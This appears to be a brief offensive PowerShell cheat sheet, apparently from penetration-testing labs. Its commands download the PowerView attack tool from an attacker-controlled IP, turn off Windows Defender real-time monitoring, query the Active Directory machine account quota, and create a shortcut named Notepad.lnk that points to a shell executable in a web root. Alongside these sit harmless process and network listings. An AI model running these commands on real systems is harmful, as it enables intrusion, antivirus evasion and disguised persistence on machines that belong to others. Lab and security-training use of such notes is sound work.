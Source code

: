 Download Files
```Powershell
Invoke-WebRequest -Uri http://10.10.14.176:8000/PowerView.ps1 -OutFile PowerView.ps1
```

Get Processes
```
Get-Process | Format-Table -Property Name, Id, CPU, WorkingSet -AutoSize

Get-Process -Name "notepad"
```
Disable AV
```powershell
# Disable real-time protection 
Set-MpPreference -DisableRealtimeMonitoring $true
```

List Network Connections
```Powershell
netstat -aon
```

```Powershell
Get-ADObject -Identity ((Get-ADDomain).distinguishedname) -Properties ms-DSMachineAccountQuota
```

Shortcuts
```Powershell
$targetPath = "C:\xampp\htdocs\5shell.exe"
$shortcutPath = "C:\Common Applications\Notepad.lnk"
$shell = New-Object -ComObject WScript.Shell
$shortcut = $shell.CreateShortcut($shortcutPath)
$shortcut.TargetPath = $targetPath
$shortcut.Save()
```